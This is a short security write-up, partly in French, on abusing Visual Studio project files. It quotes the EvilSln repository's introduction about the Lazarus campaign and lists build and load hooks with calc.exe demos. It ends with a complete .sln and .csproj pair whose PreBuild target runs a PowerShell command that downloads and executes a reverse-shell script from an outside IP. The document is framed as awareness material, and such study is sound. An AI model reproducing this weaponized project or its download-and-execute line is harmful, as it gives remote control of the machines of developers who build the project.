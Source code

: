 https://github.com/cjm00n/EvilSln

```
Using code projects for phishing attacks is not a new concept. In early 2021, the Lazarus APT group employed a specific attack technique in their campaign targeting security researchers. They embedded malicious event commands within Visual Studio project files, allowing the execution of harmful code when the project is compiled, as detailed in: [New campaign targeting security researchers](https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/)

This incident has once again brought the security of Visual Studio into the public eye. However, it is important to note that Visual Studio is not the only product with such risks. JetBrains' IDEs, VSCode, and other text editors also face similar vulnerabilities when opening unsafe projects. As a response, these products have introduced trust zone mechanisms that disable certain risky functionalities in untrusted environments, aiming to protect their users.

In this repository, we present a new exploitation technique for Visual Studio projects **(Microsoft consider it is not a security issue)** and provide a proof of concept. Our intention is to raise awareness about the potential risks involved and empower individuals to avoid being hacked.
```

Here are some publicly disclosed methods for exploiting Visual Studio:

`PreBuildEvent`: Executes arbitrary commands before project compilation.

```xml
<PreBuildEvent>
    <Command>
    cmd /c calc
    </Command>
</PreBuildEvent>
```

`GetFrameworkPaths Target`: Triggered when viewing code.

```xml
<Target Name="GetFrameworkPaths">
    <Exec Command="calc.exe"/>
</Target>
```

`COMFileReference`: Triggered when loading `TypeLib` during project opening.

```xml
<COMFileReference Include="files\helpstringdll.tlb">
     <EmbedInteropTypes>True</EmbedInteropTypes>
</COMFileReference>
```

### Exemple d'exploit avec PreBuildEvent :

Visual.sln :

```C
Microsoft Visual Studio Solution File, Format Version 12.00
# Visual Studio Version 17
VisualStudioVersion = 17.7.34031.279
MinimumVisualStudioVersion = 10.0.40219.1
Project("{FAE04EC0-301F-11D3-BF4B-00C04F79EFBC}") = "Visual", "Visual.csproj", "{A408C004-8817-4960-BF22-4E7AB8AA1974}"
EndProject
Global
	GlobalSection(SolutionConfigurationPlatforms) = preSolution
		Debug|Any CPU = Debug|Any CPU
		Release|Any CPU = Release|Any CPU
	EndGlobalSection
	GlobalSection(ProjectConfigurationPlatforms) = postSolution
		{A408C004-8817-4960-BF22-4E7AB8AA1974}.Debug|Any CPU.ActiveCfg = Debug|Any CPU
		{A408C004-8817-4960-BF22-4E7AB8AA1974}.Debug|Any CPU.Build.0 = Debug|Any CPU
		{A408C004-8817-4960-BF22-4E7AB8AA1974}.Release|Any CPU.ActiveCfg = Release|Any CPU
		{A408C004-8817-4960-BF22-4E7AB8AA1974}.Release|Any CPU.Build.0 = Release|Any CPU
	EndGlobalSection
	GlobalSection(SolutionProperties) = preSolution
		HideSolutionNode = FALSE
	EndGlobalSection
	GlobalSection(ExtensibilityGlobals) = postSolution
		SolutionGuid = {D24BD630-7BA0-46EB-A66C-8723E99703FC}
	EndGlobalSection
EndGlobal
```

Ainsi qu'un fichier Visual.csproj :

```c
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>
    <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
        <Exec Command="powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.26:8000/revshell.ps1')" />
    </Target>

</Project>
```

Juste avant le début du build du projet, la commande présente dans le fichier .csproj sera exécutée (le téléchargement et l'exécution d'un reverse-shell en powershell).